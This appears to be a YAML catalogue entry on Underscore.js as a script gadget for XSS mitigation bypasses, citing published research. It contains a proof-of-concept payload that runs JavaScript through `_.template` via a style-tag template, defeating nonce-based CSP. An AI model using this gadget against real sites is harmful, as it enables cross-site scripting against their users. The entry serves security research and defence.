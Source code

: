 ```yaml
---
description: Underscore.js is a utility-belt library for JavaScript that provides support for the usual functional suspects (each, map, reduce, filter...) without extending any core JavaScript objects.
github: jashkenas/underscore
gadgets:
  Latest:
    tags:
      - chrome-browser
      - firefox-browser
      - safari-browser
      - text-tags
      - any-attr
      - unsafe-eval-csp
      - func-call-parameter
    pocs:
      - description: The [Underscore.js](https://github.com/jashkenas/underscore) library allows you to execute JavaScript directly in the template. Since this has to be a valid raw template when reaching the `_.template` function, it has to be in an HTML text tag or passed directly as a function argument without reaching the DOM.
        code: |
          <!-- user input -->
          <div id="template"><style><% alert(document.domain) %></style></div>

          <script nonce="secret" src="https://cdnjs.cloudflare.com/ajax/libs/underscore.js/1.13.6/underscore-min.js"></script>
          <script nonce="secret">
            const template = document.getElementById("template").innerHTML;
            const compiled = _.template(template);
            document.getElementById("template").innerHTML = compiled({ name: "<h1>hello</h1>" });
          </script>
    links:
      - http://sebastian-lekies.de/slides/appsec2017.pdf
      - https://acmccs.github.io/papers/p1709-lekiesA.pdf
      - https://www.blackhat.com/docs/us-17/thursday/us-17-Lekies-Dont-Trust-The-DOM-Bypassing-XSS-Mitigations-Via-Script-Gadgets.pdf
---
```


